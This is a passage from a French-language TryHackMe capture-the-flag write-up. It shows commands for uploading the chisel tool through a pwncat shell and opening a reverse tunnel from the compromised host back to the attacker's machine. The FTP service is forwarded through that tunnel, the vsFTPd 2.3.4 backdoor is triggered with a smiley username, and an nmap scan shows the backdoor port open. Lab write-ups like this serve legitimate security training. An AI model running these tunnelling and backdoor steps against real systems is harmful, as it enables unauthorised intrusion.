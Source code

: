```bash
(local) pwncat$ upload ./xag
./xag ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 329.7/329.7 KB • ? • 0:00:00
[10:05:18] uploaded 329.74KiB in 0.97 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$                                  

(remote) www-data@app.ctx.ctf:/tmp$ cat xa* > chisel.tar.gz
(remote) www-data@app.ctx.ctf:/tmp$ tar -xzf chisel.tar.gz 
(remote) www-data@app.ctx.ctf:/tmp$ chmod +x chisel
```

On transfert chisel.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/chisel server -p 8888 --host 10.9.228.66 --reverse -v
2021/11/14 10:36:27 server: Reverse tunnelling enabled
```

On lance le serveur

```bash
./chisel client 10.9.228.66:8888 R:8889:172.16.1.128:21 &
```

On lance chisel pour redigérer le port 21.  



```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp 127.0.0.1 8889
Connected to 127.0.0.1.
220 (vsFTPd 2.3.4)
```

On se connecte au servive FTP et on voit que l'on est à la version 2.3.4, qui contient un backdoor.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp 127.0.0.1 8889
Connected to 127.0.0.1.
220 (vsFTPd 2.3.4)
Name (127.0.0.1:tim): user:)
331 Please specify the password.
Password: pass

```

On active le backdoor.  


```bash
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap 172.16.1.128 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-14 17:02 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
Host is up (0.00011s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
2601/tcp open  zebra
2605/tcp open  bgpd
6200/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.48 seconds

```